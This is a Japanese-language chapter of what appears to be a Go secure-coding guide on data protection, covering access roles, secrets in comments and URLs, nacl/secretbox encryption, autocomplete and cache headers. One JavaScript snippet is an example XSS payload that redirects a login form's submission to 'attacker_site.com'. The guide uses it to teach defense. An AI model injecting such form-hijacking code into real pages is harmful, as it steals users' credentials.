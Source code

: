データの保護
===============

現在、データの保護はセキュリティ全般で最も重要なことの 1 つです。
以下のようになってしまったら困りますよね。

![All your data are belong to us](files/cB52MA.jpeg)

Web アプリケーションのデータは保護される必要があります。そのため、このセクションではデータを保護するさまざまな方法について見ていきます。

最初に取り組むべきことの一つは、ユーザーそれぞれに対して適切な権限を実装し、本当に必要な機能だけにアクセスを制限することです。

たとえば、次のようなユーザー・ロールを持つ単純なオンライン・ストアを考えてみましょう。

* セールスユーザー: カタログの閲覧のみ許可
* マーケティングユーザー: 統計情報の確認が可能
* 開発者： ページと Web アプリケーションの設定変更を許可する

また、システム（Web サーバー）構成において、正しいパーミッションを定義するべきです。

最初にやるべきことは各ユーザーに適切なロールを定義することです。

役割の分離とアクセス制御については、さらに、[アクセス制御][5]で説明します。

## 機密情報の削除

機密情報を含む一時ファイルやキャッシュファイルは、不要になり次第すぐに削除しましょう。
まだ必要な場合は、保護された場所に移動させるか、暗号化しましょう。

### コメント

開発者がソースコードに ToDo リストのようなコメントを残すことがあります。
最悪の場合、開発者がクレデンシャルを残すこともあります。

```go
// Secret API endpoint - /api/mytoken?callback=myToken
fmt.Println("Just a random code")
```

上記の例では、開発者がコメント内にエンドポイントの情報を残しています。このエンドポイントが守られていない場合、悪意あるユーザーに利用されてしまうかもしれません。

### URL

HTTP GET メソッドで機密情報を渡すことは、次のような理由で Web アプリケーションの脆弱性を残すことになります。

1. HTTPS を使用していない場合、MITM 攻撃によりデータを傍受される可能性があります。
2. ブラウザの履歴には、ユーザーの情報が保存されています。URL に
   セッション ID、ピン、トークンなど、有効期限のない（あるいはエントロピーの低い）ものが含まれていると、それらを盗まれる可能性があります。
3. 検索エンジンは、ページ内で発見された URL を保存する
4. HTTP サーバー（例：Apache、nginx）は、通常、要求された URL を、クエリ文字列を含めて、暗号化されていない状態でログファイル (例： `access_log`) に書き込みます。

```go
req, _ := http.NewRequest("GET", "http://mycompany.com/api/mytoken?api_key=000s3cr3t000", nil)
```

Web アプリケーションが `api_key` を使って、第三者の Web サイトから情報を取得しようとした場合に、もしも同一のネットワーク内で誰かが盗聴していたら、もしくはプロキシを使っていたとしたら、その情報は盗まれるかもしれません。これは HTTPS を使っていないためです。

GET で渡されたパラメータ（クエリ文字列）は、HTTP と HTTPS のどちらを使用しているかに関係なく、ブラウザの履歴やサーバーーのアクセスログにきれいに残ることに注意してください。

HTTPS は、クライアントとサーバー以外の第三者が、やりとりしたデータを取得できないようにするための方法です。
`api_key` のような機密データは、可能な限りリクエストボディか何らかのヘッダに格納する必要があります。同様に、可能な限り 1 回限りのセッション ID やトークンを使用します。

### 情報は力なり

本番環境上のアプリケーションやシステムのドキュメントは常に削除しましょう。
ドキュメントによっては、Web アプリケーションを攻撃するために使われる可能性のあるバージョンや機能を明らかしてしまうかもしれません。
(例： Readme, Changelog, etc.)

開発者は、ユーザーが使わなくなった機密情報を削除できるようにすべきです。
たとえば、ユーザーが自分のアカウントの期限切れのクレジットカードを削除したい場合、Web アプリケーションはそれを許可すべきです。

不要になった情報は、すべてアプリケーションから削除しなければなりません。

#### 暗号化がカギ

機密性の高い情報はすべて Web アプリケーション内で暗号化する必要があります。
軍用レベルの [Go で利用可能な暗号化][2] を使用してください。詳細については
[暗号に関するプラクティス][3]のセクションを参照してください。

あなたのコードをほかの場所に実装する必要がある場合は、バイナリをビルドして共有してください。リバースエンジニアリングを防ぐ安心安全な術はないためです。

コードにアクセスするための異なるパーミッションを用意し、ソースコードへのアクセスを制限することは最良の方法です。

パスワードや接続文字列、平文やセキュリティ的に不十分な形式の機密情報をクライアント側とサーバー側の両方で保存しないでください。（データベース接続文字列を保護する方法については、[データベースセキュリティ][4]の例を参照してください）。
安全でない形式（たとえば、Adobe Flash やコンパイルされたコード）での埋め込みも含みます。

以下は、外部パッケージを使って Go で暗号化するシンプルな例です。
`golang.org/x/crypto/nacl/secretbox`:

```go
// Load your secret key from a safe place and reuse it across multiple
// Seal calls. (Obviously don't use this example key for anything
// real.) If you want to convert a passphrase to a key, use a suitable
// package like bcrypt or scrypt.
secretKeyBytes, err := hex.DecodeString("6368616e676520746869732070617373776f726420746f206120736563726574")
if err != nil {
    panic(err)
}

var secretKey [32]byte
copy(secretKey[:], secretKeyBytes)

// You must use a different nonce for each message you encrypt with the
// same key. Since the nonce here is 192 bits long, a random value
// provides a sufficiently small probability of repeats.
var nonce [24]byte
if _, err := rand.Read(nonce[:]); err != nil {
    panic(err)
}

// This encrypts "hello world" and appends the result to the nonce.
encrypted := secretbox.Seal(nonce[:], []byte("hello world"), &nonce, &secretKey)

// When you decrypt, you must use the same nonce and key you used to
// encrypt the message. One way to achieve this is to store the nonce
// alongside the encrypted message. Above, we stored the nonce in the first
// 24 bytes of the encrypted text.
var decryptNonce [24]byte
copy(decryptNonce[:], encrypted[:24])
decrypted, ok := secretbox.Open([]byte{}, encrypted[24:], &decryptNonce, &secretKey)
if !ok {
    panic("decryption error")
}

fmt.Println(string(decrypted))
```

出力は以下です。

```
hello world
```

## 不要なものは無効にする

攻撃ベクトルを減らすためのもう一つの簡単で効率的な方法は、システム上で不要なアプリケーションやサービスを無効にすることです。

### オートコンプリート

[Mozilla のドキュメント][1]によると、次のようにしてフォーム全体のオートコンプリートを無効にできます。


```html
<form method="post" action="/form" autocomplete="off">
```

特定のフォーム要素に対しては以下のようにします。

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

特に、ログインフォームのオートコンプリートを無効にする場合に便利です。ログインページに XSS ベクタが存在する場合を想像してみてください。
悪意のあるユーザーが次のようなペイロードを作成した場合、

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

これは、オートコンプリートされたフォームフィールドを `attacker_site.com` に送信します。

### キャッシュ

機密情報を含むページのキャッシュ制御は無効にする必要があります。
次のスニペットに示すように、対応するヘッダフラグを設定することで実現できます。

```go
w.Header().Set("Cache-Control", "no-cache, no-store")
w.Header().Set("Pragma", "no-cache")
```


`no-cache` 値は、キャッシュされた応答を使用する前にサーバーーで再検証するよう、ブラウザに指示します。これはブラウザにキャッシュしないように指示するものではありません。
> 訳者注：ブラウザだけに言及してますが、CDN などのプロキシキャッシュも含みます。

一方、`no-store` 値はキャッシュを無効にするためのものです。
リクエストやレスポンスのいかなる部分も保存させません。

`Pragma` ヘッダは HTTP/1.0 リクエストをサポートするために存在します。

[1]: https://developer.mozilla.org/en-US/docs/Web/Security/Securing_your_site/Turning_off_form_autocompletion
[2]: https://godoc.org/golang.org/x/crypto
[3]: ../cryptographic-practices/README.md
[4]: ../database-security/README.md
[5]: ../access-control/README.md